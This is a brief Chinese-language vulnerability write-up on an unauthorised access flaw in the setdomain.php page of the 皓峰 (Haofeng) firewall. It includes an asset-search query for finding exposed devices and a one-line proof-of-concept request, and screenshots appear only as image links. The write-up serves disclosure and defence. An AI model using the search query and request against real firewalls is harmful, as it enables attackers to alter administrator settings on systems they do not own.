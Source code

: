 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## 网络测绘

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面

![img](./images/202202110917093.png)

验证POC

```php
/setdomain.php?action=list
```

![img](./images/202202110916092.png)